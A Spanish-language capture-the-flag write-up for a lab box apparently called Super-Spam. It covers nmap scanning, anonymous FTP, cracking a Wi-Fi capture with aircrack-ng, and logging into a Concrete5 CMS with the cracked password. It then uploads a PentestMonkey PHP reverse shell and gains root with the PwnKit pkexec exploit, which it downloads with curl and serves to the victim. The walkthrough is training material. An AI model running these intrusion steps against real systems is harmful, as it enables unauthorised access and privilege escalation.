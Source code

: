 ### Tags: `aircrack-ng` `FTP` `Concrete5` `pkexec`

# Escaneo (*80, 4012, 6001, 4019, 5901*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/eb8f0f3e-97ed-456a-86a0-bb2d1f86a74b)
![image](https://github.com/user-attachments/assets/9fba341a-2568-459a-90f6-fa4d207505e6)

# Port 4019 `->` *FTP*

Nos conectamos por ftp como `anonymous` 

```ruby
 ftp <IP> -p 4019
```

Nos traemos todo lo que haya para nuestra maquina de esta manera

![image](https://github.com/user-attachments/assets/51563bb0-de21-4b94-959e-5dbe901c06ed)
![image](https://github.com/user-attachments/assets/b7196fe6-1051-40d0-9068-e44d82721810)


Vemos que nos transferimos los 3 archivos 

![image](https://github.com/user-attachments/assets/56bfdc23-61ce-4174-9ccc-5e1aa4e7fbe9)

### Note.txt

El archivo `note.txt` dice básicamente dice que han incluido los archivos **Wireshark** para registrar toda la actividad inusual y un posible user `adam`

```txt
12th January: Note to self. Our IDS seems to be experiencing high volumes of unusual activity.
We need to contact our security consultants as soon as possible. I fear something bad is going
to happen. -adam

13th January: We've included the wireshark files to log all of the unusual activity. It keeps
occuring during midnight. I am not sure why.. This is very odd... -adam

15th January: I could swear I created a new blog just yesterday. For some reason it is gone... -adam

24th January: Of course it is... - super-spam :)
```

### Quicknote.txt

Después tenemos el archivo `.quicknote.txt`, que dice que dejó un archivo `.cap` para recordar como había entrado

```txt
It worked... My evil plan is going smoothly.
 I will place this .cap file here as a souvenir to remind me of how I got in...
 Soon! Very soon!
 My Evil plan of a linux-free galaxy will be complete.
 Long live Windows, the superior operating system!
```

### SamsNetwork.cap

Como vimos en la pistas, tenemos el archivo `.cap` y  se trata de un ataque de captura de datos de un ataque wifi, por ende lo tenemos que descifrar con `aircrack` de esta forma

```ruby
aircrack-ng SamsNetwork.cap -w /usr/share/wordlists/rockyou.txt 
```

![image](https://github.com/user-attachments/assets/06ee248e-f703-4ae2-a800-24cb0945cd80)

# Port 80

Ahora **enumeramos** el puerto 80 de la maquina, observamos que es un CMS `concrete5 8.5.2`, agregamos al **/etc/hosts** `superspam.thm`

![image](https://github.com/user-attachments/assets/0ec00e07-540b-4e33-a8e7-17521cf6340c)

En la web encontramos **posibles usuarios** ya que había posts en donde figuraban sus nombre, enumeramos estos:

```txt
Benjamin_Blogger
Lucy_Loser 
Donald_Dump 
Adam_Admin
```

Investigando el web encontramos ``un panel de login``, entonces vamos a probar con los **usuarios que encontramos** y con la contraseña `sandiago` que rompimos con **aircrack-ng**
- Después de loguearnos como `Donald_Dump:sandiago`  tenemos esta web:

![image](https://github.com/user-attachments/assets/2d84a276-1b54-4915-8851-8efd4a4fd637)

Ahora lo que hacemos es poner `http://<IP>` y clickear en un de estas imágenes

![image](https://github.com/user-attachments/assets/72755bf1-17e5-4b9b-9073-1064e3c15f78)

Ahora nos vamos a acá **-->** (que esta arriba ala derecha)

![image](https://github.com/user-attachments/assets/6a534623-f674-4642-8bef-abe50d58c8eb)

Nos aparecerá esto:

![image](https://github.com/user-attachments/assets/a144177d-722b-4f63-9220-dcf4091c1086)

Antes hacer esto para poder subir un ReverseShell en php porque sino no te deja 

![image](https://github.com/user-attachments/assets/d9604a01-149a-4b11-a136-5c5290d9f840)

Ahora lo que hacemos es subir un `reverseShell` en PHP [PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php) y lo subimos a donde dice `Upload Files`. (Antes de subirlo nos ponemos en escucha con `netcat`)

![image](https://github.com/user-attachments/assets/cb638d8f-fedf-45a2-8bad-af4a5f51a3cf)

Clickeamos en donde esta nuestra `reverseShell` 

![image](https://github.com/user-attachments/assets/29abbf28-7bbe-4c2d-a3ad-a4ccaf797320)

Y estamos dentro! 

![image](https://github.com/user-attachments/assets/c537bc17-13b4-498e-a76b-17eedc345f71)

Hacemos el tratamiento de la ``TTY``

```ruby
script /dev/null -c bash
Ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```


# Escalada `ROOT`

Buscando privilegios SUID encontramos el `pkexec`

![image](https://github.com/user-attachments/assets/44feef73-2d02-4a07-9055-48f44de1292a)

Para explotarlo se hace de esta forma `--->` Enlace: [PwnKit_GitHub](https://github.com/ly4k/PwnKit)

```ruby
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit

#Lo compartimos a la maquina víctima
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/c56c85f3-df72-4ac8-a1ba-1b274d7aaba6)

Ahora con `wget` nos traemos el **PwnKit**, le damos permisos de ejecución y listo somo `ROOT`

![image](https://github.com/user-attachments/assets/cd742d33-c123-4293-8893-0058c0a27742)
![image](https://github.com/user-attachments/assets/27fcd171-a9c6-4bd5-bd15-fcbe431e1d61)

Encontramos esto y jugando con [CyberChef](https://gchq.github.io/CyberChef/) lo desciframos

![image](https://github.com/user-attachments/assets/df30eb57-5c97-4b80-9ebf-48cefbb7ba97)

![image](https://github.com/user-attachments/assets/8725a7db-6d18-42ed-a3cf-99d2538307ce)

Este es el mensajito encriptado que dejaba

```txt
This is not over! You may have saved your beloved planet this time, Hacker-man, but I will be back with a bigger, more dastardly plan to get rid of that inferior operating system, Linux.
```






